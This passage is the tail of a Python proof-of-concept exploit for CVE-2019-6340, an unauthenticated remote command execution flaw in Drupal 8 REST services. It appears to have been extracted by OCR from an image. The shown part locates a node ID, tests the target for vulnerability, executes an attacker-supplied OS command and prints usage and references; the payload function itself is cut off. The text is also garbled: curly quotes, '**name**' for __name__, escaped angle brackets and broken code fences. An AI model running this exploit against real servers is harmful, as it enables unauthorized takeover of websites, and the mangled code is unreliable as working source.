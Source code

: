 if '----' not in r.text:
    print('[warn] Command execution _may_ have failed')

print(r.text.split('----')[1]) 
```

def main(base: str, cmd: str):

“”"

Execute an OS command!

“”"

```
print('[+] Finding a usable node id...')
article = find_article(base)
if not article:
    print('[!] Unable to find a node ID to reference. Check manually?')
    return

print(f'[+] Using node_id {article}')

vuln = check(base, article)
if not vuln:
    print('[!] Target does not appear to be vulnerable.')
    print('[!] It may also simply be a caching issue, so maybe just try again later.')
    return
print(f'[+] Target appears to be vulnerable!')

exploit(base, article, cmd) 
```

if **name** == ‘**main**’:

```
print('CVE-2019-6340 Drupal 8 REST Services Unauthenticated RCE PoC')
print(' by @leonjza\n')
print('References:\n'
      ' https://www.drupal.org/sa-core-2019-003\n'
      ' https://www.ambionics.io/blog/drupal8-rce\n')
print('[warning] Caching heavily affects reliability of this exploit.\n'
      'Nodes are used as they are discovered, but once they are done,\n'
      'you will have to wait for cache expiry.\n')

if len(sys.argv) &lt;= 2:
    print(f'Usage: {sys.argv[0]} &lt;target base URL&gt; &lt;command&gt;')
    print(f'    Example: {sys.argv[0]} http://127.0.0.1/ id')

target = sys.argv[1]
command = sys.argv[2]
if not uri_valid(target):
    print(f'Target {target} is not a valid URL')
    sys.exit(1)

print(f'Targeting {target}...')
main(target, command) 
``` 
```